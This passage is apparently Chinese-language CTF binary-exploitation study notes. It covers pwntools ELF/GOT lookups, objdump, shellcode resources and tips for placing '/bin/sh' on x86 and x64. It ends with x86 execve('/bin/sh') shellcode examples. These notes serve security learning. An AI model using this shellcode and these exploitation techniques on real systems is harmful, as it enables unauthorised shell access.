     ```python!
    exe = ELF('./vuln')
    log.info("main address: " + hex(exe.symbols['main']))
    log.info("pow GOT address: " + hex(exe.got['pow']))
    log.info("strcspn GOT address: " + hex(exe.got['strcspn']))
    ```
* shellcraft
    pwntools中內建的一些assembly shell code

### Other
* objdump
    ```bash!
    $ objdump -M intel -d $binary | less
    ```
* 如果要寫shell code的話可以直接看exploit db上別人寫好的gadget，複製起來就可以用了，不過有時候也有可能會失敗，在確認其他東西都是正確的情況下，可以試看看別的，記得平台要選對
    [Exploit DB - Shell Code](https://www.exploit-db.com/shellcodes)
* [Linux System Call Table](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86-32_bit)
* [Linux System Call Table for x86 64](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)

### 寫/bin/sh\x00的方法
* [Shellcode Cheat Sheet](http://shell-storm.org/shellcode/index.html)
1. 如果是x86版本
建議直接寫在stack上，因為比較少int 0x80 ; ret的gadget可以用，那倒不如直接寫在script上然後計算esp或ebp的位置，一樣可以拿到儲存的位置
2. 如果是x64版本
建議可以用system read的方式搭配syscall ret的ROP
3. 如果是直接執行shell code
且shell code是可以直接讓我們輸入的話就直接參考exploit db的就好了
:::spoiler eg 1
```
push 0x0b
pop eax
push 0x0068732f
push 0x6e69622f
mov ebx, esp
int 0x80
```
:::
:::spoiler eg 2
```
mov eax, 0x6e69622f
push eax
mov eax, 0x0068732f
push eax
xor eax, eax
xor ebx, ebx
xor ecx, ecx
xor edx, edx
mov eax, 0xb
lea ebx, DWORD PTR [esp]
int 0x80
```
:::
:::spoiler eg 3
```
/*Put the syscall number of execve in eax*/
    xor eax, eax
    mov al, 0xb
    
    /*Put zero in ecx and edx*/
    xor ecx, ecx
    xor edx, edx
```